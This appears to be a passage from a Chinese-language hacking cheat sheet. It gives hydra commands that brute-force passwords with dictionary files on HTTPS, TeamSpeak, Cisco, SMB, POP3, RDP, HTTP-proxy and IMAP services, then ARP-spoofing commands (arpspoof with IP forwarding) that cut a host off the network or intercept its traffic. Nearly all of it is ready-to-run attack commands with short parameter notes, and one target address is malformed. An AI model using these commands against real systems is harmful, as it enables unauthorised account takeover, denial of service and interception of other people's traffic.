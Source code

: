    （参数说明：-t同时线程数3，-l用户名是admin，字典pass.txt，保存为out.txt，-f 当破解了一个密码就停止， 10.36.16.18目标ip，http-post-form表示破解是采用http的post方式提交的表单密码破解,内容是表示错误猜解的返回信息提示。

   5.破解https：

   	hydra -m /index.php -l muts -P pass.txt 10.36.16.18 https

   6.破解teamspeak：

   	hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak

5. 破解cisco：

   	hydra -P pass.txt 10.36.16.18 cisco

   	hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable

6. 破解smb：

   	hydra -l administrator -P pass.txt 10.36.16.18 smb

7. 破解pop3：

   	hydra -l muts -P pass.txt my.pop3.mail pop3

8. 破解rdp：

   	hydra ip rdp -l administrator -P pass.txt -V

9. 破解http-proxy：

   	hydra -l admin -P pass.txt http-proxy://10.36.16.18

10. 破解imap：

   	hydra -L user.txt -p secret 10.36.16.18 imap PLAIN

   	hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN

详细可以参考：[link](http://kevaxe.com/%E6%9A%B4%E5%8A%9B%E7%A0%B4%E8%A7%A3%E5%B7%A5%E5%85%B7hydra%E5%8F%82%E6%95%B0%E8%AF%B4%E6%98%8E%E5%8F%8A%E7%A0%B4%E8%A7%A3%E7%A4%BA%E4%BE%8B/)

-----

# 流量劫持
1. 查看局域网中的主机

fping –asg 192.168.1.0/24

2. 断网

arpspoof -i wlan0 -t 192.168.100 192.168.1.1

(arpspoof  -i 网卡 -t 目标IP 网关)

3. 流量劫持

echo 1 >/proc/sys/net/ipv4/ip_forward

（echo空格1空格>）

arpspoof -i wlan0 -t 192.168.100 192.168.1.1
